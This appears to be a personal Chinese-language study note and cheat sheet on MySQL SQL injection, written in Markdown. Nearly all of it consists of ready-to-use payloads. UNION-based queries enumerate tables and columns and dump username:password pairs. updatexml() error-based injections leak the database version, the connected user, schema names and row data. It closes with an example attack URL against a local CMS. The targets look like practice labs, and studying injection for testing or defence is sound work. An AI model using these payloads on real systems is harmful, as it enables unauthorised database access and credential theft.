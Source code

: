 ```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - SQL注入
---
```

# SQL注入

爆表名

```mysql
-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+
```



爆列名

```mysql
-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+
```



爆字段

```mysql
-1' union select 1,group_concat(username,":",password),3 from users --+
```



## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：XML_document是String格式，为XML文档对象的名称

第二个参数：XPath_string (Xpath格式的字符串) 

第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

因为concat()是将其连接成一个字符串，不符合xpath_string格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

##### 爆表

```mysql
and updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示 limit 0,1) ,0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868 limit 0,1) ,0x7e),1)
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x7868 and table_name= 表的十六进制表示 limit 2,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=库的十六进制表示 and table_name=表的十六进制表示 limit 2,1),0x7e),1)
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

##### 例子

```mysql
http://localhost/xhcms/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)
```